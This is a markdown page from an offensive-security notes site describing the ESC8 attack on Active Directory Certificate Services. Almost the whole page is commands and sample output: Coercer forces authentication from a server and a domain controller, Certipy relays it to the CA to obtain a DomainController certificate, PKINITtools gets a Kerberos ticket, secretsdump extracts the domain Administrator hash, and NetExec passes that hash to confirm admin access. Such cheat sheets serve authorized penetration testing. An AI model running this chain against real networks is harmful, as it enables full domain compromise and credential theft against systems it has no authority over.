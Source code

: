 ```yaml
---
title : "ESC8"
# pre : ' '
description : "ESC8 - Abuse Active Directory Certificate Services."
date : 2023-12-03T06:03:37+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## ESC8 - Abuse Active Directory Certificate Services

## Requirements

- [Coercer]({{< ref "tools/framework/coercer" >}})
- [Certipy]({{< ref "tools/other/certipy" >}})
- [Impacket]({{< ref "tools/framework/impacket" >}})
  - `secretsdump.py`
- [PKINITtools]({{< ref "tools/framework/pkinittools" >}})
  - `gettgtpkinit.py`
- [NetExec - optional]({{< ref "tools/framework/netexec" >}})

## Examples

### ESC8 from a 'random' server

**Note:** Start Certipy in relay mode before triggering authentication with Coercer.

#### Use Coercer.py to Trigger Authentication on a non-Domain Controller

- `-t` is the target server to trigger the authentication on
- `-l` is the listening host that is going to relay

```plain
$ sudo ./Coercer.py coerce -t 10.10.10.10 -u esc8-user@offsec.nl -l 10.10.10.11
Password:
[info] Starting coerce mode
[info] Scanning target 10.10.10.10
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49667,49668,49669,49702,49710,49747
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\10.10.10.11\E4UAA0b\aa') 
Continue (C) | Skip this function (S) | Stop exploitation (X) ? c
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
      [+] (ERROR_BAD_NETPATH) MS-EFSR──>EfsRpcAddUsersToFile(FileName='\\10.10.10.11\OrF5Mwc2w\file.txt\x00') 
```

#### Certipy in Relay Mode

```plain
$ sudo certipy relay -target 'http://CA01.offsec.nl' -ca 'CA01.offsec.nl'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://CA01.offsec.nl/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
OFFSEC\MGMT_SRV$
[*] Requesting certificate for 'OFFSEC\\MGMT_SRV$' based on the template 'Machine'
[*] Got certificate with DNS Host Name 'MGMT_SRV.offsec.nl'
[*] Certificate object SID is 'S-1-5-21-1234567890-123456789-09876543-56789'
[*] Saved certificate and private key to 'MGMT_SRV.pfx'
[*] Exiting...
```

### ESC8 from a Domain Controller

#### Use Coercer.py to Trigger Authentication on a Domain Controller

- `-t` is the target server to trigger the authentication on
- `-l` is the listening host that is going to relay

```plain
$ sudo ./Coercer.py coerce -t 10.10.10.10 -u esc8-user@offsec.nl -l 10.10.10.11
Password:
[info] Starting coerce mode
[info] Scanning target 10.10.10.10
[*] DCERPC portmapper discovered ports: 49664,49665,49666,49667,49668,49669,49702,49710,49747
[+] SMB named pipe '\PIPE\eventlog' is accessible!
   [+] Successful bind to interface (82273fdc-e32a-18c3-3f78-827929dc23ea, 0.0)!
      [!] (NO_AUTH_RECEIVED) MS-EVEN──>ElfrOpenBELW(BackupFileName='\??\UNC\10.10.10.11\E4UAA0b\aa') 
Continue (C) | Skip this function (S) | Stop exploitation (X) ? c
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
      [+] (ERROR_BAD_NETPATH) MS-EFSR──>EfsRpcAddUsersToFile(FileName='\\10.10.10.11\OrF5Mwc2w\file.txt\x00') 
```

#### Certipy in Relay Mode to Certificate Authority

```plain
$ sudo certipy relay -target 'http://CA01.offsec.nl' -ca 'CA01.offsec.nl' -template DomainController 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting http://CA01.offsec.nl/certsrv/certfnsh.asp (ESC8)
[*] Listening on 0.0.0.0:445
OFFSEC\DC01$
[*] Requesting certificate for 'OFFSEC\\DC01$' based on the template 'DomainController'
[*] Got certificate with DNS Host Name 'DC01.offsec.nl'
[*] Certificate object SID is 'S-1-5-21-1234567890-123456789-09876543-56789'
[*] Saved certificate and private key to 'DC01.pfx'
[*] Exiting...
```

#### Get TGT from Certificate

```plain
$ python3 gettgtpkinit.py -cert-pfx ~/DC01.pfx "offsec.nl/DC01$" "DC01.ccache" -dc-ip 10.10.10.25
2023-12-08 16:18:33,939 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2023-12-08 04:20:13,042 minikerberos INFO     Requesting TGT'
INFO:minikerberos:Requesting TGT
2023-12-08 04:20:13,052 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2023-12-08 04:20:13,053 minikerberos INFO     12345678911
INFO:minikerberos:12345678911
2023-12-08 04:20:13,056 minikerberos INFO     Saved TGT to file
```

#### Secretsdump.py Extract Domain Administrator Hash

```plain
$ secretsdump.py -k 'offsec.nl/DC01$@DC01.offsec.nl' -debug -just-dc-user administrator -dc-ip 10.10.10.25
Impacket v0.10.0 - Copyright 2022 Fortra
Password:
[+] Using Kerberos Cache: DC01.ccache
[+] SPN CIFS/DC01.offsec.nl@offsec.nl not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for KRBTGT/offsec.nl@offsec.nl
[+] Using TGT from cache
[+] Trying to connect to KDC at 10.10.10.25
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Trying to connect to KDC at 10.10.10.25
[+] Calling DRSCrackNames for administrator 
[+] Calling DRSGetNCChanges for {} 
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=Administrator,CN=Users,DC=OFFSEC,DC=local
offsec.nl\Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
[...]
[*] Cleaning up... 
```

#### NetExec Check Privileges

```plain
$ nxc smb 10.10.10.25 -u administrator -H :97f2592347d8fbe42be381726ff9ea83             
SMB         10.10.10.25  445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:offsec.nl) (signing:True) (SMBv1:False)
SMB         10.10.10.25  445    DC01             [+] offsec.nl\administrator:97f2592347d8fbe42be381726ff9ea83 (Pwn3d!)
```

## URL list

- [Crowe.com - Exploiting AD CS: A quick look at ESC1 and ESC8](https://www.crowe.com/cybersecurity-watch/exploiting-ad-cs-a-quick-look-at-esc1-esc8)
